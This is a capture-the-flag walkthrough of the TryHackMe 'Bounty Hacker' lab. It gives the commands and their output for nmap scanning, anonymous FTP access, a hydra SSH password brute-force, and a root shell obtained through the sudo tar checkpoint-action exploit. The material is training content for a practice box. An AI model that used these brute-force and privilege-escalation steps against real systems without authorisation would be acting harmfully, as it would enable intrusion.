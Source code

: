 ```yaml
---
title: TryHackMe - Bounty Hacker Walkthrough
date: 2020-08-05
asciinema: true
---
```


{{< figure src="/media/bounty-card.png"  title="Credits to Sevuhl" >}}

This challenge is a straightforward Linux box involving simple enumeration, credential bruteforcing and abusing user `sudo` privileges on an unsafe binary.

---

# Initial reconnaissance

## Enumerating running services

Command run: `$ sudo nmap -sS -Pn 10.10.211.186 -oN nmap-syn.txt`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-04 22:51 EDT
Nmap scan report for 10.10.211.186
Host is up (0.39s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```
We can see three open ports `21`, `22` and `80`. Let's perform full nmap scans of these ports:

Command run: `$ nmap -A -p21,22,80 10.10.211.186 -oN nmap-full.txt`

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.4.10.122
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.52 seconds
```

## A quick look at the web service

{{< figure src="/media/bounty-webservice.png" >}}

## Enumerating FTP service

The FTP service allows anonymous logins, let's see what we can find there.

Command run: `$ ftp 10.10.211.186 21`

```
kali@kali:/mnt/hgfs/TryHackMe/bounty-hunter$ ftp 10.10.211.186 21
Connected to 10.10.211.186.
220 (vsFTPd 3.0.3)
Name (10.10.211.186:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
ftp>
```

We download the two text files to our host with the `get` command and read their content. The `task.txt` file contains the answer to Task#3

```
kali@kali:/mnt/hgfs/TryHackMe/bounty-hunter$ cat task.txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

The `locks.txt` contains a set of what could be credentials for another service (hosted on web server, or perhaps SSH passwords).

```
kali@kali:/mnt/hgfs/TryHackMe/bounty-hunter$ cat locks.txt | head -n5
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
```

Task 4 hints us that the password is indeed for some SSH credentials. We just need a list of usernames to match. Based on the few information we can get out of the web service we can draft the following `potential-users.txt` list:

```
lin
vicious
ed
spike
faye
ein
edward
redeye
```

# Brute-forcing SSH

There are a few ways to go abount bruteforcing access to `ssh`, one commonly used tool to perform such tasks is `hydra` !(https://github.com/vanhauser-thc/thc-hydra)

```
kali@kali:/mnt/hgfs/TryHackMe/bounty-hunter$ hydra -L potential-users.txt -P locks.txt ssh://10.10.21
1.186
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-04 23:30:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 208 login tries (l:8/p:26), ~13 tries per task
[DATA] attacking ssh://10.10.211.186:22/
[22][ssh] host: 10.10.211.186   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-04 23:31:51
```

We found a valid SSH credential `lin:RedDr4gonSynd1cat3`, this will answer Task 4.

# Accessing the machine

Command run: `$ ssh lin@10.10.211.186`

```
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls -la
total 12
drwxr-xr-x  2 lin lin 4096 Jun  7 17:06 .
drwxr-xr-x 19 lin lin 4096 Jun  7 22:17 ..
-rw-rw-r--  1 lin lin   21 Jun  7 17:06 user.txt
```

## Escalating to root

One of the first things to check when looking for a privilege escalation vector on Linux is to verify what commands can the current user run with elevated privileges. This is done with the following command: `$ sudo -l`. Note that you will require the current user's `sudo` password to be able to run the command.

```
lin@bountyhacker:/home$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

> NAME
     tar — The GNU version of the tar archiving utility

If `tar` runs in privileged context, it may be used to access the file system, escalate or maintain access with elevated privileges if enabled on sudo.

`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

```
lin@bountyhacker:/home$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# ls -la /root   
total 40
drwx------  5 root root 4096 Jun  7 21:31 .
drwxr-xr-x 24 root root 4096 Jun  6 06:36 ..
-rw-------  1 root root 2694 Jun  7 22:25 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Feb 26  2019 .cache
drwxr-xr-x  2 root root 4096 Jun  7 15:00 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   19 Jun  7 17:16 root.txt
-rw-r--r--  1 root root   66 Jun  7 21:13 .selected_editor
drwx------  2 root root 4096 Jun  7 19:29 .ssh
```

---

Hope you enjoyed the write-up, thank you for reading 👏

